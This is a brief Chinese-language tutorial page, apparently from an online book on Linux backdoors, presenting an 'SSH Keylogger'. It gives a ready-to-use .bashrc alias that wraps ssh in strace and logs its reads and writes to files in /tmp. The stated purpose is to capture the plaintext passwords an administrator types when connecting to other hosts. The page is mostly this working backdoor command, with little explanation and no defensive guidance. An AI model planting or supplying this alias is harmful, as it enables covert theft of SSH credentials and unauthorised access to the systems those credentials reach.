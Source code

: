 # SSH Keylogger

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/5.html](http://book.iwonder.run/安全技术/Linux 后门/5.html)

利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc 里新建一条 alias、这样可以抓取他登陆其他机器的 ssh 密码。算是 alias 后门。后面会在讲一下 alias 后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```

![image](img/d5ca132ee6430776448e67cb7c495d36.png)

![image](img/a6184f6e949f145102ddf1294adcb0bb.png)

